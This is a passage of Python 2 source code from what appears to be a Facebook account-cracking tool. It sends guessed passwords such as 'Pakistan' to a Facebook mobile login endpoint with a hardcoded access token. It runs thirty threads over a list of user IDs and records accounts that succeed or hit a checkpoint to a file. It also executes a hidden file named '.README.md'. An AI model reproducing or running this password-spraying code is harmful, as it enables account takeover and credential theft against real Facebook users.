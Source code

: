 									pass4 = 'Pakistan'
									data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
									q = json.loads(data.text)
									if '407' in q['error_msg']:
										print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass4
										oks.append(user+pass4)
									else:
										if '405' in q["error_msg"]:
											print '[Checkpoint] ' + user + ' | ' + pass4
											cps = open("save/checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	raw_input("\n[Press Enter To Go Back]")
	os.system('python2 .README.md')
		
		
def crack_action2():
	bch = ""
	if bch =="":
		os.system('clear')
		print logo
		try:
			idlist = (".txt")
			kn=raw_input(" First Name : ")
			k=raw_input(" Username WIthout Digits : ")
			ac=raw_input(" Mail Domain : ")
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] Error 404, please try again'
			raw_input('\n[ Press Enter To Go Back ]')
			menu()
	elif bch =="0":
		menu()
	else:
		print "[!] Fill in correctly"
		crack_action()
	xxx = str(len(id))
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)
	print 50*"-"
	print
	